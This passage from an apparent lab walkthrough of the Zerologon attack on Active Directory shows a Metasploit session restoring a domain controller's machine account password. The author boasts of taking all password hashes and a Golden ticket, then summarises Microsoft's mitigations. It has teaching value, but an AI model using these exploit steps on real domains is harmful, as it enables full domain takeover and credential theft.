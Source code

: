 ```shell
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set PASSWORD cfbb2bbc9b3a70e340d0026b250a2d3c9ea12f2e79a65c30e0ac776a3a412c38
PASSWORD => cfbb2bbc9b3a70e340d0026b250a2d3c9ea12f2e79a65c30e0ac776a3a412c38
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > options

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name      Current Setting                          Required  Description
   ----      ---------------                          --------  -----------
   NBNAME    advictim2012r2                           yes       The server's NetBIOS name
   PASSWORD  cfbb2bbc9b3a70e340d0026b250a2d3c9ea12f2  no        The password to restore for the machine account (in hex)
             e79a65c30e0ac776a3a412c38
   RHOSTS    192.168.201.9                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework/w
                                                                iki/Using-Metasploit
   RPORT                                              no        The netlogon RPC port (TCP)


Auxiliary action:

   Name     Description
   ----     -----------
   RESTORE  Restore the machine account password

msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > exploit
[*] Running module against 192.168.201.9

[*] 192.168.201.9: - Connecting to the endpoint mapper service...
[*] 192.168.201.9:49155 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.201.9[49155] ...
[*] 192.168.201.9:49155 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.201.9[49155] ...
[+] 192.168.201.9:49155 - Successfully set machine account (advictim2012r2$) password
[*] Auxiliary module execution completed
```

Job done !!!\
Machine account password restored and we grabbed all the password hashes including the Golden ticket that gives us the full domain administrator access for further exploitation.

### In summary
This again is a very easy route to comprise and gain full admin access on an Active Directory domain.\
\
Microsoft has applied two fixes to mitigate this attack.\
\
The first mitigation is to reject NetrServerAuthenticate3 requests in which the first five bytes are identical. 
However, this still allows for longer brute-force attacks (requiring an average of 2^32 attempts).\
\
The second mitigation is to reject Netlogon channels that are not signed/sealed for all Windows computer accounts.
This will completely mitigate the attack even if brute force is possible.\
\
Since, Windows Netlogon clients always seal Netlogon messages there shouldn’t be any problem.
But, Microsoft took the conservative approach and still allowed unsigned Netlogon sessions for non-Windows computer accounts.
This means that, in theory, non-Windows computer accounts are still vulnerable. 
However in the meanwhile, Microsoft has released a patch that will also reject insecure Netlogon sessions from non-Windows devices.
